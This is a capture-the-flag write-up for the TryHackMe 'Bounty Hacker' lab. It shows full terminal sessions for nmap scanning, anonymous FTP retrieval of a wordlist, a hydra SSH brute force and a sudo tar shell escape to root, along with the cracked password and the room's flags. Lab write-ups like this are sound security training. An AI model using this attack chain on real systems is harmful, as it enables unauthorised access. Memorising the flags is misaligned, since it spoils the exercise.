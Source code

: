 # Bounty Hacker

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

[Bounty Hacker](https://tryhackme.com/room/cowboyhacker)

## Topic's

* Network Enumeration
* FTP Enumeration
* Brute Forcing (SSH)
* Misconfigured Binaries

## Living up to the title.

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!

1. Deploy the machine.

`No answer needed`

2. Find open ports on the machine

```
kali@kali:~/CTFs/tryhackme/Bounty Hacker$ sudo nmap -sS -sC -sV -O -A 10.10.156.215
[sudo] password for kali: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-05 14:51 CEST
Nmap scan report for 10.10.156.215
Host is up (0.031s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.106.222
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Infomir MAG-250 set-top box (90%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (90%), Ubiquiti AirOS 5.5.9 (90%), Linux 2.6.32 - 3.13 (89%), Linux 3.3 (89%), Linux 2.6.32 - 3.1 (89%), Linux 3.7 (89%), Netgear RAIDiator 4.2.21 (Linux 2.6.37) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 49154/tcp)
HOP RTT      ADDRESS
1   31.06 ms 10.8.0.1
2   31.25 ms 10.10.156.215

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.10 seconds
```

`No answer needed`

3. Who wrote the task list? 

```
kali@kali:~/CTFs/tryhackme/Bounty Hacker$ ftp 10.10.156.215
Connected to 10.10.156.215.
220 (vsFTPd 3.0.3)
Name (10.10.156.215:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp> mget *
mget locks.txt? 
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.08 secs (5.0435 kB/s)
mget task.txt? 
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (245.9491 kB/s)
ftp> exit
221 Goodbye.
```

```
kali@kali:~/CTFs/tryhackme/Bounty Hacker$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

`lin`

4. What service can you bruteforce with the text file found?

`ssh`

5. What is the users password? 

```
kali@kali:~/CTFs/tryhackme/Bounty Hacker$ hydra -l lin -P locks.txt 10.10.156.215 -t 4 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-05 14:58:50
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.156.215:22/
[22][ssh] host: 10.10.156.215   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-05 14:58:57
```

`RedDr4gonSynd1cat3`

6. user.txt

```
kali@kali:~/CTFs/tryhackme/Bounty Hacker$ ssh lin@10.10.156.215
The authenticity of host '10.10.156.215 (10.10.156.215)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.156.215' (ECDSA) to the list of known hosts.
lin@10.10.156.215's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
lin@bountyhacker:~/Desktop$
```

`THM{CR1M3_SyNd1C4T3}`

7. root.txt

```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

* [.. / tar](https://gtfobins.github.io/gtfobins/tar/)

```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}
# 
```

`THM{80UN7Y_h4cK3r}`
